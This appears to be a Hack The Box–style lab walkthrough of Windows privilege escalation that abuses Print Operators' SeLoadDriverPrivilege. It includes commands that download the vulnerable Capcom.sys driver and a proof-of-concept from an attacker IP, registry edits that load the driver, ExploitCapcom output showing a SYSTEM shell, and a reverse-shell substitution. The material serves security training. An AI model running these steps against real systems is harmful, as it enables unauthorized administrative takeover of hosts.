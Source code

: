 [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, we will need to bypass UAC.

Privileges not there
```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name           Description                          State
======================== =================================    =======
SeIncreaseQuotaPrivilege Adjust memory quotas for a process   Disabled
SeChangeNotifyPrivilege  Bypass traverse checking             Enabled
SeShutdownPrivilege      Shut down the system                 Disabled
```

The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. Alternatively, from a GUI, we can open an administrative command shell and input the credentials of the account that is a member of the Print Operators group. If we examine the privileges again, `SeLoadDriverPrivilege` is visible but disabled.

Bypass UAC and boom
```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. We can use [EnableSeLoadDriverPrivilege.cpp](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) to load the driver. The PoC enables the privilege as well as loads the driver for us.

Download it locally and edit it, pasting over the includes below.
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Download `EnableSeLoadDriverPrivilege.cpp` and `Capcom.sys` then complile on machine with `cl.exe`
```powershell
iwr http://10.10.15.155/EnableSeLoadDriverPrivilege.cpp -o EnableSeLoadDriverPrivilege.cpp

iwr http://10.10.15.155/Capcom.sys -o C:\temp\Capcom.sys

cl.exe /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

Add `Capcom.sys` driver to HCU tree
```powershell
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.
```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

Run EnableSeLoadDriverPrivilege.exe
```powershell
.\EnableSeLoadDriverPrivilege.exe
```

Verify Capcom is now listed
```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio
```powershell
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

### Alternate Exploitation - No GUI
If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

#### Automating with EopLoadDriver

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

```powershell
C:\htb> .\EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.
### Clean-up

 Removing Registry Key
```powershell
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```